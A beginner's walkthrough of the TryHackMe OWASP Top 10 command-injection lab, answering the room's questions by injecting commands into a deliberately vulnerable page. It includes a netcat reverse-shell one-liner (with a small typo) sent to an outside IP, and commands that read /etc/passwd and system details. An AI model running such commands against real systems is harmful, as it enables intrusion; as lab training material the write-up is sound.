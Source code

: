 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)

#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 
[error](/imgs/eroor.PNG)
but if i enter "root" the page will print a message with success
[suess](/imgs/success.PNG)
so now i will try yo inject it with a username and  command "root;ls"
[test1](/imgs/test1.PNG)
the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 
[#1i](/imgs/#1.PNG)
the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 
 to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
 refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 
maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 
[#1i](/imgs/#1.PNG)
### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 
[#2i](/imgs/#2.PNG)
will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami
[#3i](/imgs/#3.PNG)
the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd
[#4i](/imgs/#2.PNG)
### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 
[#5.1](/imgs/#5.1.PNG)
but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a
[#5.2](/imgs/#5.2.PNG)
### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 
in the end of the file the mention a type of drink 
[#6i](/imgs/#6.PNG)

thanks 


